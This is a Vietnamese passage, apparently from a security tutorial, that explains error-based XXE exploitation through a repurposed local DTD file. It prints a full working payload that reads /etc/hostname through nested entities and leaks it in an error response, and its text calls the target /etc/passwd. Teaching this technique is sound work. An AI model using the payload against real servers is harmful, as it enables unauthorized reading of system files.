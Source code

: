 Chọn một thực thể của DTD và xác định cấu trúc của nó và cố tình gây ra lỗi trong đó để đưa phản hồi lỗi đó vào phản hồi của máy chủ cùng với payload ở dạng như dưới đây:

```xml-dtd
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:////etc/hostname">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<root></root>
```

Trông có vẻ hơi phức tạp, luồng hoạt động của nó như sau:

1. File DTD đã được load trong biến `local_dtd`

2. Chúng ta có một thực thể DTD có tên là `custom_entity`

3. Thay đổi nội dung của `custom_entity` này bằng cách tạo động một thực thể `file` để tải nội dung của /etc/passwd
4. Tạo thực thể error trong thực thể eval để gây ra lỗi

Mọi thứ đều mã hóa html vì tất cả đều nằm trong định nghĩa của custom_entity. Các thực thể bên trong custom_entity tương tự như khi XXE với mã thông báo như phần trước chỉ khác là một định nghĩa của custom_entity và html được mã hóa.

![image-20220522162505824](https://user-images.githubusercontent.com/68894302/169690602-3b9d2307-fe4b-48ea-bd68-1d87c604a71e.png)
